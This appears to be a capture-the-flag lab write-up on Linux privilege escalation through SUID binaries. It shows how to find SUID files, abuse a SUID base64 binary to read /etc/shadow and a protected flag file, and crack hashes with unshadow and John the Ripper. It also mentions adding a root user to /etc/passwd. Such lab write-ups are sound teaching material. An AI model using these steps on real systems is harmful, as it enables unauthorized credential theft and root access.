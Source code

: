 # SUID

This section focuses on Linux privilege escalation through the manipulation of file permissions, specifically using SUID (Set-user ID) and SGID (Set-group ID) bits. Here are the key points:

1. **Understanding Permissions**: Linux controls user interactions with files through permissions (read, write, execute). The SUID and SGID bits allow users to execute files with the permissions of the file owner or group owner, respectively.
2.  **Identifying SUID/SGID Files**: You can find files with SUID or SGID bits set using the command:

    ```
    CodeCopy Codefind / -type f -perm -04000 -ls 2>/dev/null
    ```

    This command lists files that have special permissions, which can be potential vectors for privilege escalation.
3. **Using GTFOBins**: It’s recommended to compare the identified executables with [GTFOBins](https://gtfobins.github.io/), a resource that lists binaries that can be exploited when the SUID bit is set. This can help identify potential vulnerabilities.
4. **Example with Nano**: The lesson highlights that the `nano` text editor has the SUID bit set, allowing users to read and edit files with root privileges. This can be leveraged for privilege escalation.
5. **Privilege Escalation Methods**:
   * **Reading /etc/shadow**: By using `nano /etc/shadow`, you can access the contents of the shadow file, which contains hashed passwords. You can then use the `unshadow` tool to combine it with `/etc/passwd` for password cracking with tools like John the Ripper.
   * **Adding a New User**: Alternatively, you can create a new user with root privileges by adding an entry to `/etc/passwd`. This involves generating a password hash using a tool like OpenSSL and then adding the user with the desired privileges.



### Which user shares the name of a great comic book writer?

**Step 1: Examine the /etc/passwd file**

Use the command:

```bash
cat /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

### What is the password of user2?

We already have the /etc/passwd file, but now we need to SUID to elevate the privileges in order to copy the /etc/shadow.

**Step 1: List the SUID or SGID bits set**

List the SUID files with the command:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

We'll use the `/usr/bin/base64.` Let's check the GTFObins for the SUID bit set of base64.

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

Instead of **./base64**, lets use **/usr/bin/base64** like the command bellow. This allows to run from every directory:

```bash
LFILE=/etc/shadow
/usr/bin/base64 "$LFILE" | base64 --decode
```

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Step 2: Crack the user2's password**

Copy both **/etc/passwd** and **/etc/shadow** to the target machine.

Let's use unshadow to create a crakable file for John the Ripper

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

With both files in the same directory run the following command:

```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

And then use John the Ripper to Crack the hash:

```bash
john passwords.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

### What is the content of the flag3.txt file?

**Step1: Login with user2**

```bash
su user2
```

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

**Step2: Look for the flag**

Move to the /home/ubuntu and try to see the content of flag3.txt

```bash
cd /home/ubuntu
cat flag3.txt
```

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

We still don't have enough privileges. Let's try the same technique used with the user karen

**Step2: Use the base64 SUID**

As we did before, execute the following commands but now specifing the **flag3.txt**:

```
LFILE=/home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
```

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

And we successfuly retrieve the flag!
